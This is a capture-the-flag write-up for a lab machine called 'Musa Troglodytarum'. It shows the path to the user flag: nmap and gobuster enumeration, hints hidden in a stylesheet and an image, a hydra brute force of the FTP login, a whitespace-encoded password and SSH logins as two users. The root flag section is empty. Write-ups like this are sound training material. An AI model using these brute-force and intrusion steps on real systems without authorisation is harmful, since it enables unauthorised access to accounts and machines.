 # CTF: Musa Troglodytarum

![Difficulty: Medium](https://img.shields.io/badge/difficulty-medium-%23ffcc00)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP](https://img.shields.io/badge/category-ftp-%237159c1)
![By: Alexandre & Eloi (Root)](https://img.shields.io/badge/by-Alexandre%20%26%20Eloi%20(Root)-%23f9a03c)
![alt text](img/musatroglodytarum.png)

## Description

> Le bananier des montagnes

## Write-up

UserFlag: user.txt
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results :

```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2024-05-18 13:27 BST
Nmap scan report for ip-10-10-37-170.eu-west-1.compute.internal (10.10.37.170)
Host is up (0.00049s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
MAC Address: 02:F4:5E:FF:AB:3F (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

We see a open port 80. Let's check the website.

We go to the 80 port :
`http://$IP`

We have a debian default page.

We can use gobuster to find hidden directories :
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.37.170
[+] Threads:        10
[+] Wordlist:       Tools/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/05/18 13:29:17 Starting gobuster
===============================================================
/assets (Status: 301)
===============================================================
2024/05/18 13:29:23 Finished
===============================================================
```

We have a directory `/assets`. Let's check it out.

We go to the `/assets` directory :
`http://$IP/assets`

We see a directory listing :

```
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	-	 
[VID]	MusaTroglodytarum.mp4	2021-11-29 15:57	50M	 
[TXT]	style.css	2021-11-29 13:04	2.9K	 
```

We have a video file `MusaTroglodytarum.mp4`. Let's download it. And listen to it.

In the video we have a person said :
```
Ce n'est pas au bon endroit que vous êtes. Vous devez trouver chercher sur le site.
```

In the style.css file we have :
```
/* Nice to see someone checking the stylesheets.
     Take a look at the page: /<file>.php
*/
```

We have an alert said disable JavaScript. We can disable it.

We go to the `/<file>.php` page :
`http://$IP/<file>.php`

We are redirected to a folder, we see a page like this :
![alt text](img/musatroglodytarum1.png)


We can wget the file `http://$IP/<file>.php` and see the content.

We see a redirection : 
```
--2024-05-18 14:13:12--  http://10.10.37.170/<file>.php
Connecting to 10.10.37.170:80... connected.
HTTP request sent, awaiting response... 302 Found
Location: intermediary.php?hidden_directory=/<folder> [following]
--2024-05-18 14:13:12--  http://10.10.37.170/intermediary.php?hidden_directory=/<folder>
Reusing existing connection to 10.10.37.170:80.
HTTP request sent, awaiting response... 302 Found
Location: /<folder> [following]
--2024-05-18 14:13:12--  http://10.10.37.170/<folder>
Reusing existing connection to 10.10.37.170:80.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: http://10.10.37.170/<folder>/ [following]
--2024-05-18 14:13:12--  http://10.10.37.170/<folder>/
Reusing existing connection to 10.10.37.170:80.
HTTP request sent, awaiting response... 200 OK
Length: 618 [text/html]
Saving to: ’<file>.php’
```

We can see the hidden directory. We can go to the hidden directory :
`http://$IP/<folder>`

We have an image `Hot_Babe.png`. We can download it.

We use `strings` to see if there is any hidden text in the image.

```bash
strings Hot_Babe.png
```

We see code of the image but at the end we have a message :
```
Eh, you've earned this. Username for FTP is banane_celeste:
One of these is the password:
- ...
````

We have the username `banane_celeste` and we can stock the password in a file and use hydra to bruteforce the password to connect to the FTP server.

```bash
hydra -l banane_celeste -P password.txt ftp://$IP
```

We have the password `banane_celeste` and we can connect to the FTP server.

We can use the following command to connect to the FTP server :
```bash
ftp $IP
```

We do `ls` to see the files in the FTP server.
```bash
ftp> ls -al
drwxr-xr-x    2 0        0            4096 Nov 29  2021 .
drwxr-xr-x    2 0        0            4096 Nov 29  2021 ..
-rw-r--r--    1 0        0             860 Nov 08  2022 Valerian's_Creds.txt
```

We have a file `Valerian's_Creds.txt`. We can download it.

We can use the following command to download the file :
```
ftp> get Valerian's_Creds.txt
ftp> bye
```

We can use `cat` to see the content of the file.

```bash
cat Valerian's_Creds.txt
```

We have a text who said :
```
Get out, there is nothing here!
```

But we can install `xxd` to see if there is any hidden text in the file.

```bash
apt-get install xxd
```

We can use `xxd` to see if there is any hidden text in the file.

```bash
xxd Valerian's_Creds.txt
```

![alt text](img/musatroglodytarum2.png)

We see `.`in the xxd output. It's space. We have a language called "whitespace". We can use an online whitespace decoder to decode the text.

We have the password of the user `Valerian`, we can use it to connect to the SSH server.

```bash
ssh Valerian@$IP
```

We have a message when we connect to the SSH server :
```
Message from Root to Gabriel:

"Gabriel, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
```

We can try to find in all folders for a file called `s3cr3t`.

```bash
find / -name s3cr3t 2>/dev/null
```

We have a folder, we can go to the folder.

```bash
cd /<folder>
```

We can use `ls -al` to see the files in the folder.

```bash
ls -al
```

We found an hidden file `.th1s_m3ss4ag3_15_f0r_g4br13L_0nly!`.

```bash
cat .th1s_m3ss4ag3_15_f0r_g4br13L_0nly!
```

It says the password of the user `Gabriel`. We can use it to connect to the SSH server.

```bash
ssh Gabriel@$IP
```

Go to the home directory of the user `Gabriel`.

```bash
cd /home/gabriel
```

And we can see the user flag.

### Root Flag

